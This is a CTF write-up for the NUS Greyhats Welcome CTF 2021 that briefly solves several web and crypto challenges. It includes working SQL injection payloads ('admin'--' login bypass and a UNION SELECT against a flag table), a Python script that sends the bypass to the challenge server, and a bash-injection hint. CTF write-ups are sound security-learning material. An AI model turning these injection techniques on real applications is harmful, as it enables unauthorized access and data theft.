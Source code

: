 # NUS Greyhats Welcome CTF 2021

This file is for the other challenges that don't have their dedicated `.md` file.

## Pasta

Caesar cipher, that just so happens to also be ROT13.

## Bash Injection

Add a single double quote to get out of the login, then play around. You can find the flag by printing out `login.sh`

## No Submit Security

Using the Inspect Element window, just add the submit button back.

## Covid Tracker.

First use a username of `admin'--` to log on. 

Then, use a `UNION SELECT` clause to include the flag in the
result of the call to locations.

Probably something like 
```sql
' UNION SELECT value, value, COUNT(value) FROM flag; --
```
would work.

```python

import requests, json

s = requests.Session()

def try_login(user, pw):
    # print("!!! Call on user", user, "pw", pw)
    r = s.post("http://challs1.nusgreyhats.org:5201/api/login",
            data={"username":user, "password":pw})
    try:
        k = json.loads(r.content)
        if k["err"] != "Incorrect Login":
            print("!!! error other than incorrect login:", k["err"], "on login", user, pw)
    except:
        pass
    return r.status_code == 200

try_login("admin';--", "") # IMPORTANT, lets us access /api/locations

def query_locations(search):
    r = s.post("http://challs1.nusgreyhats.org:5201/api/locations",
            data={"search": search})
    if r.status_code != 200:
        print("!!! error:", r.content)
    else:
        return json.loads(r.content)

```

## No Ketchup, Just Sauce

First, divine that you are supposed to access `robots.txt` to find `reborn.php`.

Then, from the backup comment, divine that you are supposed to access `reborn.php.bak`, in which the flag is accessible in plaintext.

# Credits

I just want to thank my teammates tisrandomkid, sean, and Wei Jun, for helping with some of the other challenges, (in particular, we somehow solved KTANE with very little reverse engineering. Whew.)